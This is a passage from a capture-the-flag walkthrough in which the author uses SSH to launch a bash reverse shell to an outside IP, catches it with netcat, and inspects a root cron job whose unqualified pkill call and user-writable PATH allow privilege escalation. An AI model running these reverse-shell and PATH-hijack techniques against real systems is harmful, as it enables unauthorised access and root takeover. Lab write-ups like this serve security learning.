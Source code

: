 let try to login as lachlan through ssh but remember that nope and we can pass shell from ssh

```
└─$ ssh lachlan@10.10.2.238 "bash -c 'exec bash -i &>/dev/tcp/10.4.69.121/1234 <&1'"
lachlan@10.10.2.238's password: 



```
we got shell but also hide our self
```
└─$ nc -nvlp 1234                                                                                                                                                                                                                        32 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.2.238.
Ncat: Connection from 10.10.2.238:41068.
bash: cannot set terminal process group (9233): Inappropriate ioctl for device
bash: no job control in this shell
lachlan@b2r:~$ ls /dev/pts
ls /dev/pts
ptmx
lachlan@b2r:~$ 

```

Remember that cronjob that keep terminate us
```
lachlan@b2r:~$ ps aux|grep nope
ps aux|grep nope
root       37237  0.0  0.1   2608   532 ?        Ss   17:03   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root       37238  0.0  0.1   2608   532 ?        Ss   17:03   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root       37244  0.0  0.1   2608   536 ?        Ss   17:03   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
lachlan    37257  0.0  0.1   6300   720 ?        S    17:03   0:00 grep --color=auto nope
lachlan@b2r:~$ 


```
the mistake was to run pkill without a full path.we will exploit by inject our path to our binary called pkill and execute as root

After try to inject my own path and got no luck but from .bash_history, we can see that PATH was passed that it is why we were not successful
```
lachlan@b2r:~$ cat /etc/cron.d/persistence
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
lachlan@b2r:~$ 
```